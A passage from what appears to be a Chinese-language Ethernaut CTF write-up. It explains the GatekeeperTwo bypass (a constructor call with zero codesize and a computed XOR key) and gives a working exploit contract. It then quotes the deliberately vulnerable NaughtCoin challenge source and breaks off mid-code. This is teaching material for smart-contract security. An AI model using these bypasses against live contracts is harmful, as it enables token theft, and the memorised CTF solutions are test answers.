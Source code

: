 ```js
    return true;
  }
}
```

- msg.sender != tx.origin，部署第三方合约调用即可
- 当前 caller 的 codesize 为 0，当合约还没创建完成的时候 codesize 为 0，因此写在 constructor 里即可
- gateKey 异或 sender 的 keccak256 的前 8 字节为 0-1=0xFFFFFFFFFFFFFFFF，本地计算然后传过去即可

```js
pragma solidity ^0.6.0;

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns (bool);
}
contract Exp {
    GatekeeperTwo challenge;
    constructor(address _addr) public {
        challenge = GatekeeperTwo(_addr);
		uint64 gateKey = (uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this))));
		challenge.enter(bytes8(gateKey));
    }
}
```

## Naught Coin

NaughtCoin 是一种 ERC20 代币，而且您已经持有这些代币。问题是您只能在 10 年之后才能转移它们。您能尝试将它们转移到另一个地址，以便您可以自由使用它们吗？通过将您的代币余额变为 0 来完成此关卡。

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
```